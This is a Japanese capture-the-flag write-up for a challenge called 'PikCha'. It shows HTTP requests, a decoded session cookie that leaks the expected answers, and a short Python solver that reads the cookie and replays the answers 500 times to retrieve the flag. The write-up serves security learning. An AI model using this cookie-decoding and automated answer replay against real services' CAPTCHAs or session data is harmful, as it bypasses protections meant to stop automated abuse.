

# PikCha

```txt
http://104.197.195.221:8084 http://34.121.84.161:8084
```

## Solution

問題にアクセスすると入力欄と画像が表示されます。



適当な値を入力すると以下のようなリクエストが送られていました。

```http
POST / HTTP/1.1
Host: 104.197.195.221:8084
 ...
Upgrade-Insecure-Requests: 1

guess=7
```

```http
HTTP/1.1 302 FOUND
Server: gunicorn/20.0.4
 ...
Vary: Cookie
Set-Cookie: session=eyJhbnN3ZXIiOlsxMTQsMTA4LDEzOSwyMV0sImNvcnJlY3QiOjAsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL0tUZ1RaUGJVaEYuanBnIn0.YGctjA.3lpuJAm6kEeRRunVYS6LnRQ4cXA; HttpOnly; Path=/

```

JWT をデコードしてみると、以下にような内容になっていました。

```json
Headers = {
  "answer": [
    94,
    37,
    87,
    134
  ],
  "correct": 0,
  "image": "./static/chall-images/wcXYabZuNr.jpg"
}

Payload = "`g-�"

Signature = "HQxDaBvpu8AOTB0CojWZrsaUTl4"
```

どうやら、`answer` の値が画像に紐図いていると推測できます。

JWT の脆弱性なども試しましたが、特に突破口は見当たりませんでした。

適当な値を送信していると、`0/500` から　`1/500` と増えた場合がありました。

その時のリクエストを調べてみると、JWT の Headers にある answer の値が順番通りに並ぶように送信すると増加することがわかりました。

なので JWT からポケモンの番号を取得してそれを順番通りに `guess` パラメータに入れて、500回リクエストを送信すると flag を得れるかもしれないと推測します。

ここで以下の Python コードを実行してみます。

すると上手く実行されて、flag が表示されました。

Solver
```python
#!/usr/bin/python3
import requests
import base64
import json

def get_answer(cookie):
    ans = cookie.split('.')[0]
    missing_padding = len(ans) % 4
    if missing_padding:
        ans = ans + '=' * (4 - missing_padding)
    return json.loads(base64.b64decode(ans).decode('ascii'))

r = requests.get('http://34.121.84.161:8084/')
answer = get_answer(r.cookies['session'])

for i in range(500):
    payload = {"guess": ' '.join([str(i) for i in answer['answer']])}
    r = requests.post('http://34.121.84.161:8084/', data=payload, cookies=r.cookies)
    answer = get_answer(r.cookies['session'])

print(r.text)
```

```shell
$ python3 solve.py
UMASS{G0tt4_c4tch_th3m_4ll_17263548}
```

## Flag

flag : `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`